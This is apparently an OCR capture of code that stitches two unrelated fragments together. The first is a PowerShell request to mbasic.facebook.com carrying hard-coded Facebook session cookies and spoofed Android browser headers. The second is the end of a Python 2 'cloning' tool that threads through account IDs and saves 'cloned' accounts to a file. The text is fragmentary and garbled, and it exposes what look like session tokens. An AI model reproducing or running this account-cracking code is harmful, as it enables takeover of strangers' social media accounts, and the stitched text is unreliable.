 $session.Cookies.Add((New-Object System.Net.Cookie("datr", "G3MzZQwrftqZ9EZNZHhEoWO_", "/", ".facebook.com")))
$session.Cookies.Add((New-Object System.Net.Cookie("sb", "G3MzZR4RdNxYDB1_1n45LJUK", "/", ".facebook.com")))
$session.Cookies.Add((New-Object System.Net.Cookie("m_pixel_ratio", "2.8860480785369873", "/", ".facebook.com")))
$session.Cookies.Add((New-Object System.Net.Cookie("wd", "375x687", "/", ".facebook.com")))
$session.Cookies.Add((New-Object System.Net.Cookie("fr", "0g8v5YDUwcVuVBh8G..BlM3Mb.Hd.AAA.0.0.BlM3Mf.AWXMEkwtj60", "/", ".facebook.com")))
Invoke-WebRequest -UseBasicParsing -Uri "https://mbasic.facebook.com/data/manifest/" `
-WebSession $session `
-Headers @{
"authority"="mbasic.facebook.com"
  "method"="GET"
  "path"="/data/manifest/"
  "scheme"="https"
  "accept"="*/*"
  "accept-encoding"="gzip, deflate, br"
  "accept-language"="bn-BD,bn;q=0.9,en-GB;q=0.8,en;q=0.7,bn-IN;q=0.6,en-US;q=0.5"
  "dpr"="2.88605"
  "referer"="https://mbasic.facebook.com/"
  "sec-ch-prefers-color-scheme"="dark"
  "sec-ch-ua"="`"Not)A;Brand`";v=`"24`", `"Chromium`";v=`"116`""
  "sec-ch-ua-full-version-list"="`"Not)A;Brand`";v=`"24.0.0.0`", `"Chromium`";v=`"116.0.5845.72`""
  "sec-ch-ua-mobile"="?1"
  "sec-ch-ua-model"="`"SM-M215F`""
  "sec-ch-ua-platform"="`"Android`""
  "sec-ch-ua-platform-version"="`"12.0.0`""
  "sec-fetch-dest"="manifest"
  "sec-fetch-mode"="cors"
  "sec-fetch-site"="same-origin"
  "viewport-width"="375"
}
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total CP/Ok: '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """



\033[1;96mThanks For Using My tool
\033[1;95mFb\033[1;97mLIMOpythonS"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
